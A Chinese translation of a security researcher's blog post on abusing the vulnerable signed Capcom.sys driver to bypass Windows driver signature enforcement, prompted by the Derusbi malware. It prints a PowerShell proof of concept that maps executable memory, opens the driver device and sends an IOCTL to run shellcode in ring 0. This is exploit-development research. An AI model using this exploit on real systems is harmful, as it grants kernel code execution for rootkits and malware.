 最近，我读了一篇关于Derusbi恶意软件的[文章](http://www.sekoia.fr/blog/windows-driver-signing-bypass-by-derusbi/)。那篇文章主要是关于恶意软件作者使用了一种技术，利用签名的Novell驱动的漏洞（CVE-2013-3956）修改一些内核中的位来临时禁用驱动签名。一旦禁用了，Derusbi加载一个NDIS驱动，可能用来嗅探原始数据包的传输（我没有细看）。

不管怎样，我很好奇相同功能的PoC有多困难（事实是也不是很困难）。为了完整描述攻击者的场景，我决定使用签名驱动（Capcom.sys）中的漏洞，它首先由[TheWackOlian](https://twitter.com/TheWack0lian/status/779397840762245124)在2016年9月23日披露。

<br>

**0x01 资源**

Capcom-Rootkit（[@FuzzySec](https://twitter.com/fuzzysec)）- [这里](https://github.com/FuzzySecurity/Capcom-Rootkit)

Derusbi绕过Windows驱动签名 – [这里](http://www.sekoia.fr/blog/windows-driver-signing-bypass-by-derusbi/)

快速浏览强制驱动签名（[@j00ru](https://twitter.com/j00ru)） – [这里](http://j00ru.vexillium.org/?p=377)

对抗X64强制驱动签名（[@hFireF0X](https://twitter.com/hfiref0x)）- [这里](http://www.kernelmode.info/forum/viewtopic.php?f=11&amp;t=3322)

<br>

**0x02 驱动漏洞**

本文主要的目的不是分析驱动漏洞。我强烈建议你看下[@TheColonial](https://twitter.com/TheColonial)的演示，以更好的理解利用过程。





本质上，驱动提供了ring0代码执行作为一个服务。它唯一的功能是使用用户层的指针来禁用[SMEP](http://j00ru.vexillium.org/?p=783)，执行指针地址的代码并重新启用SMEP。函数的反汇编如下：

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016626ecf3b8d34680.png)

Powershell PoC如下，描述了如何利用。



```
# Some tricks here
# =&gt; cmp [rax-8], rcx
echo "`n[&gt;] Allocating Capcom payload.."
[IntPtr]$Pointer = [CapCom]::VirtualAlloc([System.IntPtr]::Zero, (8 + $Shellcode.Length), 0x3000, 0x40)
$ExploitBuffer = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8) + $Shellcode
[System.Runtime.InteropServices.Marshal]::Copy($ExploitBuffer, 0, $Pointer, (8 + $Shellcode.Length))
echo "[+] Payload size: $(8 + $Shellcode.Length)"
echo "[+] Payload address: $("{0:X}" -f $Pointer.ToInt64())"
$hDevice = [CapCom]::CreateFile("\.Htsysm72FB", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
    echo "`n[!] Unable to get driver handle..`n"
    Return
} else {
    echo "`n[&gt;] Driver information.."
    echo "[+] lpFileName: \.Htsysm72FB"
    echo "[+] Handle: $hDevice"
}
# IOCTL = 0xAA013044
#---
$InBuff = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8)
$OutBuff = 0x1234
echo "`n[&gt;] Sending buffer.."
echo "[+] Buffer length: $($InBuff.Length)"
echo "[+] IOCTL: 0xAA013044"
[CapCom]::DeviceIoControl($hDevice, 0xAA013044, $InBuff, $InBuff.Length, [ref]$OutBuff, 4, [ref]0, [System.IntPtr]::Zero) |Out-null
```
